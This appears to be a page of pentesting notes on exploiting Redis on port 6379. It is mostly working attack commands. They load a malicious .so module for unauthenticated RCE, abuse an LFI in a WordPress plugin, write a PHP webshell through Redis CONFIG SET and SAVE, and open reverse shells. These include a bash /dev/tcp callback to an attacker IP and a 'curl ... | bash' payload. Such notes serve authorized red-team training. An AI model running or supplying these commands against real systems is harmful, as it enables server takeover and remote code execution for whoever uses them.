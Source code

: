 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations. The default configuration file is located at `/etc/redis/redis.conf`.

## Unauthenticated Root RCE

In Redis `4.x` and `5.x` instances the ability to load shared object (`.so`) modules at runtime can leveraged to gain RCE. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis** → The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`. This is possible if the Redis instance is exposed to the internet without authentication or the attacker has acquired valid credentials to an authenticated instance. In addition, Redis must not restrict module loading; unless explicitly disabled, this capability is broadly accessible in insecure deployments.
2. **Writable Location on Target Filesystem** → The attacker must be able to place a malicious `.so` file on the target machine. Two main techniques can be used:
   1. Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
   2. Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE. For either case, a `.so` file must be created. This can be done via the original [PoC](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) or its modified [more modern version](https://github.com/CSpanias/redis-module-rce):

{% code overflow="wrap" %}
```bash
~$ git clone https://github.com/CSpanias/redis-module-rce && cd redis-module-rce && make
<SNIP>
gcc -Wall -fPIC -O2 -std=gnu99 -Imodule -shared -o module.so module/module.c

~/redis-module-rce$ ls -l module.so
-rwxr-xr-x 1 x7331 x7331 38704 Aug  1 14:29 module.so

~/redis-module-rce$ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c35119dc82e22bb135fb85215b9c0f40c98edde4, not stripped
```
{% endcode %}

{% tabs %}
{% tab title="Redis Persistence Settings" %}
This [PoC](https://github.com/CSpanias/redis-module-rce) can be used to leverage the Redis settings:

```bash
./redis-rce.py --rhost redis-instance --lhost 192.168.45.170
```
{% endtab %}

{% tab title="External Upload" %}
If `write` access to the target host is already obtained, i.e., via FTP, the `.so` file can be uploaded and then loaded into Redis:

```bash
# Upload the .so file to the target host via FTP
$ ftp ftp@redis-target
ftp> cd pub
ftp> put module.so
ftp>exit
​
# Connect to the Redis instance
$ redis-cli -h redis-target
redis-target:6379> MODULE LOAD /var/ftp/pub/module.so # Load the module
OK

redis-target:6379> MODULE LIST # Confirm that the module is loaded
1) 1) "name"
   2) "system" # The function of interest
   3) "ver"
   4) (integer) 1

redis-target:6379> system.exec "id" # System command execution

redis-target:6379> system.rev 192.168.45.170 6379 # Reverse shell
```
{% endtab %}
{% endtabs %}

## Authenticated RCE

{% tabs %}
{% tab title="Webroot & Writable Paths" %}
The apache configuration file (`/etc/apache2/sites-enabled/000-default.conf`) can be used to find the webroot and the Redis service configuration (`/etc/systemd/system/redis.service`) can be used to find writable paths:

{% code overflow="wrap" %}
```bash
# Find the webroot (e.g. via LFI)
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/apache2/sites-enabled/000-default.conf

DocumentRoot /var/www/html
 
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service          

ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
```
{% endcode %}
{% endtab %}

{% tab title="Webshell" %}
Create a webshell to test RCE:

```bash
$ redis-cli -h wp-instance -a Passw0rd123!
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('id'); ?>"
OK
wp-instance:6379> save
OK
```

The contents of the file will be in RDB format so we can write it to the a file and run `strings`:

{% code overflow="wrap" %}
```bash
$ curl -s http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
                                                                                                            
$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
$ strings test.php      
<SNIP>
uid=1000(bob) gid=1000(bob) groups=1000(bob)
```
{% endcode %}
{% endtab %}

{% tab title="RevShell" %}
{% code title="shell.sh" %}
```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.45.170/9002 0>&1
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('curl 192.168.45.170/shell.sh | bash'); ?>"
OK
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Trigger the revshell
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php
```
{% endcode %}
{% endtab %}
{% endtabs %}
